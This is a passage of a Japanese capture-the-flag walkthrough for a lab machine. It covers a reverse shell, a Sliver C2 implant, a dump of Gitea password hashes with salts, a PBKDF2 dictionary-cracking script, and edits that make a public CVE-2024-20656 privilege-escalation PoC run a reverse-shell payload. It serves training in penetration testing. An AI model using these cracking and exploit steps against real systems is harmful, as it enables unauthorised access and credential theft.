



実行に成功すると以下のように２つのリポジトリがクローンされている



あとはリスナーを起動してrepo1のリポジトリのURLをポート5000で動作しているフォームに送信するだけ



応答が得られ、シェルを取得することができた



# Privilege Escalation

`C:\Users` フォルダ内に `Emily` というユーザーがいることが分かった。まず `Emily` に横移動する必要がありそう。



## Sliver C2

SliverでC2セッションを確立する

インプラントを作成してリスナーを起動



作成したインプラントをダウンロードして実行



C2セッションを確立できた



## 横移動 (Richard > Emily)

Giteaがインストールされていたのでフォルダ内を調べると `gitea.db` というデータベースファイルを見つけた。



`gitea.db` をダウンロードする



ファイルを調べると sqlite3のデータベースファイルであることが分かった。



データベースにアクセスする



テーブルを一覧表示

```sqlite
.tables
```

`user` というテーブルを見つけた



`user` テーブルを調べる



```
1|administrator|administrator||administrator@compiled.htb|0|enabled|1bf0a9561cf076c5fc0d76e140788a91b5281609c384791839fd6e9996d3bbf5c91b8eee6bd5081e42085ed0be779c2ef86d|pbkdf2$50000$50|0|0|0||0|||6e1a6f3adbe7eab92978627431fd2984|a45c43d36dce3076158b19c2c696ef7b|en-US||1716401383|1716669640|1716669640|0|-1|1|1|0|0|0|1|0||administrator@compiled.htb|0|0|0|0|0|0|0|0|0||arc-green|0
2|richard|richard||richard@compiled.htb|0|enabled|4b4b53766fe946e7e291b106fcd6f4962934116ec9ac78a99b3bf6b06cf8568aaedd267ec02b39aeb244d83fb8b89c243b5e|pbkdf2$50000$50|0|0|0||0|||2be54ff86f147c6cb9b55c8061d82d03|d7cf2c96277dd16d95ed5c33bb524b62|en-US||1716401466|1720089561|1720089548|0|-1|1|0|0|0|0|1|0||richard@compiled.htb|0|0|0|0|2|0|0|0|0||arc-green|0
4|emily|emily||emily@compiled.htb|0|enabled|97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16|pbkdf2$50000$50|1|0|0||0|||0056552f6f2df0015762a4419b0748de|227d873cca89103cd83a976bdac52486|||1716565398|1716567763|0|0|-1|1|0|0|0|0|1|0||emily@compiled.htb|0|0|0|0|0|0|0|2|0||arc-green|0
6|test|test||test@test.com|0|enabled|1ba3b8ac6251a8e06511f79ef4ab81bbdbaa76159a4818ef89b311e05d3584425911b4d0c10543dbb08c622e5dd8306f981d|pbkdf2$50000$50|0|0|0||0|||d9ef10ddc6ffd0e93a1a8e059927cdc6|1008ac252c1fdd3c46259cc8522e49f0|ja-JP||1723174673|1723174690|1723174673|0|-1|1|0|0|0|0|1|0||test@test.com|0|0|0|0|2|0|0|0|0||arc-green|0
```

ユーザーのパスワードハッシュを見つけた。 `emily` のパスワードハッシュがあるのでこれを解析すればパスワード取得できそう

### PBKDF2

```
4|emily|emily||emily@compiled.htb|0|enabled|97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16|pbkdf2$50000$50|1|0|0||0|||0056552f6f2df0015762a4419b0748de|227d873cca89103cd83a976bdac52486|||1716565398|1716567763|0|0|-1|1|0|0|0|0|1|0||emily@compiled.htb|0|0|0|0|0|0|0|2|0||arc-green|0
```

データに `pbkdf2$50000$50` がある。

これは以下のように分割できる。

```
pbkdf2
50000
50
```

`pbkdf2` : パスワードから暗号化キーを生成するためのアルゴリズムでSHA-256やSHA-512などが使用される。

`50000` : 反復回数。この場合、パスワードは50,000回の反復を経てハッシュ化される。

`50` : 生成されるキーの長さ（バイト単位）この場合50バイトのハッシュキーを生成される。

解析に必要になるものを特定する

saltを特定する



hashを特定する



特定した情報からパスワードを解析するスクリプトを作成した

```python
import hashlib
import binascii

def pbkdf2_hash(password, salt, iterations=50000, dklen=50):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',  # hash_algo
        password.encode('utf-8'),  # password
        salt,  # salt
        iterations,  # iterations
        dklen=dklen  # key
    )
    return hash_value

def find_matching_password(dictionary_file, target_hash, salt, iterations=50000, dklen=50):
   
    target_hash_bytes = binascii.unhexlify(target_hash)
   
    with open(dictionary_file, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            # ハッシュを生成
            hash_value = pbkdf2_hash(password, salt, iterations, dklen)
            # ハッシュが正しいか確認する
            if hash_value == target_hash_bytes:
                print(f"Match password: {password}")
                return password
   
    print("Password not found.")
    return None

salt = binascii.unhexlify('227d873cca89103cd83a976bdac52486')  # salt
target_hash = '97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16' # hash
dictionary_file = '/usr/share/wordlists/rockyou.txt'

find_matching_password(dictionary_file, target_hash, salt)
```

解析に成功し、パスワードが `12345678` であることが分かった。



ポートスキャンの結果からWinRMが動いていることが分かっているのでパスワードが機能するか試す。



機能することが分かったのでログインする



ログインに成功した



user.txtを取得

## 垂直移動 (Emily > Administrator)

Documentsフォルダに `Visual Studio 2019` のフォルダがあった。



## CVE-2024-20656 (VSStandardCollectorService150を悪用したLocal Privilege Escalation)

Webサイトにも `Visual Studio 2019`が使用されていたので `Visual Studio 2019` に関する `Local Privilege Escalation` がないか調べてみたところ以下の記事を発見した。

[CVE-2024-20656 – Local Privilege Escalation in the VSStandardCollectorService150 Service](https://www.mdsec.co.uk/2024/01/cve-2024-20656-local-privilege-escalation-in-vsstandardcollectorservice150-service/)

この脆弱性は `VSStandardCollectorService150` が診断データの収集プロセス中にファイル権限の処理が不適切であることに起因している。

### VSStandardCollectorService150とは

Microsoft Visual Studioの診断ツールの一部であり、パフォーマンスの分析やデバッグのための診断データを収集するサービスで、必要なシステムリソースにアクセスするためにデフォルトで `NT AUTHORITY\SYSTEM` で実行される

### 脆弱性の詳細

1. 診断データを格納するディレクトリを作成する
2. サービスの動作中、`SetNamedSecurityInfoW` 関数を使用してファイルの権限を変更するが、このディレクトリが正しく操作されていれば、他のファイルにリダイレクトすることが可能になる
3. 攻撃者は指定されたディレクトリからファイルシステム内の他の場所にリンクを作成することができ、サービスがこのリンクを操作することで、意図しないファイルの権限を変更することができるようになる

### Exploit

PoCがないか調べてみたところGitHubに以下のPoCを見つけた

[CVE-2024-20656](https://github.com/Wh04m1001/CVE-2024-20656?tab=readme-ov-file)

リポジトリをVisual Studioでクローンする

ソースファイルの 4行目に `VSDiagnostics.exe` のパスがあるのでターゲットマシン上のパスと同じになるように変更する

```
WCHAR cmd[] = L"C:\\Program Files (x86)\\Microsoft Visual Studio\\2019\\Community\\Team Tools\\DiagnosticsHub\\Collector\\VSDiagnostics.exe";
```

ソースファイルの187行目の `C:\windows\system32\cmd.exe` をリバースシェルペイロードに変更する

変更前

```
CopyFile(L"c:\\windows\\system32\\cmd.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
```

変更後

```
CopyFile(L"c:\\temp\\payload.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
```

編集が完了したら構成を `Releases` に変更してビルドしてターゲットマシンにアップロードする





ペイロードを作成してアップロード



Visual Studio で編集したペイロードのパスと同じ場所に置く




